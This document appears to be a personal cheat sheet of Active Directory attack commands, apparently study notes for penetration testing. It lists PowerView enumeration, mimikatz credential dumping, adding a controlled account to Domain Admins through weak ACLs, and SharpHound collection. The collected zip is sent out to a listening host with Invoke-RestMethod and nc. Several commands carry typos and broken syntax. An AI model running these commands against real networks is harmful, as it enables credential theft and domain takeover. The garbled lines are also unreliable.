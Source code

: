 ### basic command of domain
>sysdm.cpl   #computer config
dsa.msc  #AD mgr,add delete user
net userusername passwd /add /domain     #add domain user
net group "Domain Admins" clare /add /domain   #add a user to dmmain admin group
gpupdate /force      #update the gp group policy. \n
net share sharename=c:\foldername          # share a folder
setspn HTTP/nameofhost(sql.inmy.com) inmy\sqladmin

### emulate info of domain
powershell.exe -nop -exec bypass  #fireup the powershell
  #Powerview to emulate the domain infor;
Import-Module .\PowerView.ps1
Get-NetDOmain
>Get-NetUser | select cn
Get-NetGroup \n
  Get-NetComputer
  Find-LocalAdminAccess  #important

  Get_NetSession -ComputerName $computerName  #get other user which has net session with this host& not guarantee to use
    
  Get-NetLoggedon -ComputerName $cumputername # get remote access from other user. & not guarantee to use


### mimikaz :to get the hash of remote access admin
  privilege::debug    #run this first, to test the privi of mimikaz

  sekurlsa::logonPasswords  #to view the passwd or passwd hash of user login this host

###  check services running on this host or domain by spn
  Get-NetUser -SPN select serviceprincipalname, samaccountname

  net user sqladmin /domain

### check the privi of account to Domain admins grp "ActiveDirectoryRIghts" like gernericAll
  Get-objectAcl -Identify "Domain admins"   /only get the SID of the account

  Convert-SidToName $UID  /to convert

  / if we find a SID is diff from other,, try to compromise this ID
  / net group "Domain Admins" $username(which you controlled)  /add /domain
    / net group "Domain Admins" $username(which you controlled)  /del /domain
  
### sharphound    /sharphound to collect info, send to host, bloodhound to view the result
  / /usr/share/metasploit-framework/data/post/powershell/SharpHound.ps1
  Import-Module .\SharpHound

  Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\ -OutputPrefix "$name"  /a file.zip will be created. 

  Invoke-RestMethod -Uri $serveruri  -Method Post -InFile #dir -UserDefaultCredentials

  nc -nvlp $port > name.zip

  ####neo4j   for bloodhound
    $sudo neo4j start

    $bloodhound
      upload the .zip==> analysis ==> shortest paths
          match (m:Computer) return m , or m:User
          then mark a cimputeror user as owned. click shortest path from owned priciplals
          right click the connection to view the suggestions.

          
        

      

    

  
  
  

  
